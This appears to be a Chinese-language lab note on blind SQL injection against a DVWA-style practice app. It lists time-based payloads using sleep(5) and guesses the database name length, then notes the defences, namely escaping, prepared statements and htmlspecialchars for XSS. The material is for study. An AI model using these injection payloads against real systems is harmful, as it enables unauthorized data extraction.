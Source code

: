 **基于时间**

1. 判断注入

   ```
   输入1’ and sleep(5) #，感觉到明显延迟；
   
   输入1 and sleep(5) #，没有延迟；
   ```

2. 猜名字

   ```
   1’ and if(length(database())=1,sleep(5),1) # 没有延迟
   
   1’ and if(length(database())=2,sleep(5),1) # 没有延迟
   
   1’ and if(length(database())=3,sleep(5),1) # 没有延迟
   
   1’ and if(length(database())=4,sleep(5),1) # 明显延迟
   ```

就是用时间猜名字。

### medium

`mysql_real_escape_string`对特殊符号处理和下拉框

burp修改注入

### high

High级别的代码利用cookie传递参数id，当SQL查询结果为空时，会执行函数sleep(seconds)，目的是为了扰乱基于时间的盲注。同时在 SQL查询语句中添加了LIMIT 1，希望以此控制只输出一个结果。

使用bool型盲注

### impossible

PDO：绑定变量使用SQL语句预编译

## XSS

`htmlspecialchars`